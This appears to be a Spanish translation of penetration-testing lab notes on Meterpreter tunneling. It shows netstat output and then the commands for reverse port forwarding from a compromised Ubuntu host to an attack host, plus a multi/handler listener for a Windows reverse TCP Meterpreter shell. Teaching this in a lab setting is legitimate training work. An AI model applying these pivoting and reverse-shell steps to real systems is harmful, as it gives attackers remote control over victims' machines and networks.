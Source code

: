 ### **Salida de netstat**

Podemos usar NetStat para ver la información sobre la sesión que establecimos recientemente. Desde una perspectiva defensiva, podemos beneficiarnos del uso de NetStat si sospechamos que un anfitrión se ha visto comprometido. Esto nos permite ver las sesiones que ha establecido un anfitrión.

Túnel de meterpreter y reenvío de puertos

```
xnoxos@htb[/htb]$ netstat -antptcp        0      0 127.0.0.1:54652         127.0.0.1:3300          ESTABLISHED 4075/xfreerdp

```

---

# **Reenvío de puerto inverso de meterpreter**

Similar a los delanteros de puertos locales, MetaSploit también puede realizar`reverse port forwarding`Con el siguiente comando, donde es posible que desee escuchar en un puerto específico en el servidor comprometido y reenviar todos los shells entrantes del servidor Ubuntu a nuestro host de ataque. Iniciaremos un oyente en un nuevo puerto en nuestro host de ataque para Windows y solicitaremos que el servidor Ubuntu reenvíe todas las solicitudes recibidas al servidor Ubuntu en el puerto`1234`a nuestro oyente en el puerto`8081`.

Podemos crear un puerto inverso hacia adelante en nuestro shell existente desde el escenario anterior utilizando el siguiente comando. Este comando reenvía todas las conexiones en el puerto`1234`Ejecutando en el servidor Ubuntu a nuestro host de ataque en el puerto local (`-l`) `8081`. También configuraremos a nuestro oyente para escuchar en el puerto 8081 para un shell de Windows.

### **Reglas de reenvío de puertos inversos**

Túnel de meterpreter y reenvío de puertos

```
meterpreter > portfwd add -R -l 8081 -p 1234 -L 10.10.14.18

[*] Local TCP relay created: 10.10.14.18:8081 <-> :1234

```

### **Configuración y inicio de múltiples manejadores**

Túnel de meterpreter y reenvío de puertos

```
meterpreter > bg

[*] Backgrounding session 1...
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LPORT 8081
LPORT => 8081
msf6 exploit(multi/handler) > set LHOST 0.0.0.0
LHOST => 0.0.0.0
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 0.0.0.0:8081

```

